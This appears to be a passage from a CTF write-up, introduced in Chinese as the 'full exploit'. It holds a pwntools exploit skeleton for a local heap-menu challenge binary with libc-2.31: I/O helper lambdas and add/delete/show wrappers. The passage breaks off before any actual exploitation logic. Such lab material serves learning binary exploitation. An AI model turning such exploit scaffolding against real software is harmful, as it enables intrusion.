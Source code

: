 完整 exp：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')


add_idx = 1
delete_idx = 2
show_idx = 3
edit_idx = 4

def dbg():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('How much?\n',size)
    sla('Which?\n',idx)
    sla('Content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('Which one?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Which one?\n',idx)

```